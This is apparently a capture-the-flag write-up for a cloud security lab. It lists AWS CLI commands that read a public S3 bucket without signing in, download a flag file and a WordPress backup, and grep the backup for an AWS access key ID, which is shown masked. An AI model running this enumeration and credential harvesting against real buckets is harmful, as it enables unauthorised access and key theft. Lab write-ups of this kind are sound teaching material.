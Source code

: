 ### Challenges
- Website: `https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png`
![alt text](cloud_1.png)

1. Name of the S3 Bucket used to host the Website is images.bestfestivalcompany.com

---

2. Download the flag.txt object from that bucket.
```bash
$ curl https://s3.amazonaws.com/images.bestfestivalcompany.com/
$ aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request
# flag.txt

$ aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request
# download: s3://images.bestfestivalcompany.com/flag.txt to ./flag.txt

$ cat flag.txt 
```

---

4. Question: Find AWS Access Key ID in the file
```bash
$ aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
$ unzip wp-backup.zip
$ cd wp_backup
$ cat * | grep "AKIA" 2>/dev/null
# define('S3_UPLOADS_KEY', 'AKIAxxxxxxxxxxxxxxxxxx');
```

---

